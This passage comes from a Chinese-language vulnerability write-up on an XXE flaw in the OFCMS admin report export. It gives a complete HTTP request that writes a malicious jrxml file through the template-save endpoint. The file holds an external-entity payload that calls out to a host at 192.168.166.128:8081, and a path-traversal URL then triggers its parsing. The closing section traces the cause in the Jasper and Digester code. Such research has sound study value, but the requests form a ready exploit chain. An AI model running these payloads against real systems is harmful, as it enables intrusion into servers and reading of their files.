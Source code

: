 定位到控制器处理方法，在 com.ofsoft.cms.admin.controller.ReprotAction   
类的 expReport 方法中。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfS09OZHwNm65tkwiayWI7PwtH839h22EV52mzqKVKGrknqeNBZ6ZNQKGdtNGgX32zqx8pOUqlReIw/640?wx_fmt=png "")  
  
使用上文的任意文件读取，在静态页面下放入我们写入的jrxml文件，文件命名为xxe.jrxml  
,构造payload  
```
POST /ofcms_admin/admin/cms/template/save.json HTTP/1.1Host: localhost:8099User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0Accept: application/json, text/javascript, */*; q=0.01Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencoded; charset=UTF-8X-Requested-With: XMLHttpRequestContent-Length: 394Origin: http://localhost:8099Connection: closeReferer: http://localhost:8099/ofcms_admin/admin/cms/template/getTemplates.htmlCookie: JSESSIONID=FCF2920F5C1C3ECAC592420888B66674; Phpstorm-63ee32fd=c3d51684-64a8-4398-bce8-86b8077fb103; XDEBUG_SESSION=XDEBUG_ECLIPSEfile_path=G%3A%5Cofcms113%5Capache-tomcat-8.5.78%5Cwebapps%5Cofcms_admin%5CWEB-INF%5Cpage%5Cdefault%5Cindex.html&dirs=%2F&res_path=&file_name=index.html&file_content=%3c%21%44%4f%43%54%59%50%45%20%70%6f%65%6d%20%5b%3c%21%45%4e%54%49%54%59%20%25%20%78%78%65%20%53%59%53%54%45%4d%20%22%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%36%36%2e%31%32%38%3a%38%30%38%31%22%3e%25%78%78%65%3b%20%5d%3e
```  
  
文件内容的payload  
```
<!DOCTYPE poem [<!ENTITY % xxe SYSTEM "http://192.168.166.128:8081">%xxe; ]>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfS09OZHwNm65tkwiayWI7PwhpwWzbSlVl6ZWDW1Q7ickx39MSxpjpqmqd0unL7Fq3pxHyZJ1GjjOpw/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfS09OZHwNm65tkwiayWI7PwkMIlY7XrXvOia6ckKicS7iclBRIrt9VNQ2Pu671vFtVC9wwxFLZMFdXIg/640?wx_fmt=png "")  
  
  
直接访问  
```
http://localhost:8099/ofcms_admin/admin/reprot/expReport.html?%20j=../../static/xxe
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfS09OZHwNm65tkwiayWI7Pwjo5guERMYOAmEtTyfA9wWEcN6c6PIYTiaef7yVoQNY6gq3M3GibDzqow/640?wx_fmt=png "")  
  
  
  
漏洞成因是调用了 getParamsMap 方法，获取用户提交的所有参数，并将 j 参数赋值给 jrxmlFileName ，服务器接收用户输入的 j 参数后，拼接生成文件路径，可直接穿越其它目录，但是限制了文件后缀为 jrxml，所以文件名命名为jrxml  
  
先调用getParamsMap 方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfS09OZHwNm65tkwiayWI7PwUQAEOMVeafYTTHnuoibtNqNewibZNn6toaEC8IkWA4jibqeyf9lKTJzhw/640?wx_fmt=png "")  
  
而后调用JasperCompileManager.compileReport() 方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfS09OZHwNm65tkwiayWI7PwIic2fCkL8UeYLhovoXcDKCOxMnZL12OaX997Yxw3xGBl9IQxLYgv4mg/640?wx_fmt=png "")  
  
  
F7跟进，在 compile方法中调用 JRXmlLoader.load() 方法，F7跟进,在 loadXML 方法中调用了 Digester 类的 parse 解析我们的 XML 文档对象，默认是没有禁用外部实体解析，所以xxe文件能执行。  
##### 总结  
  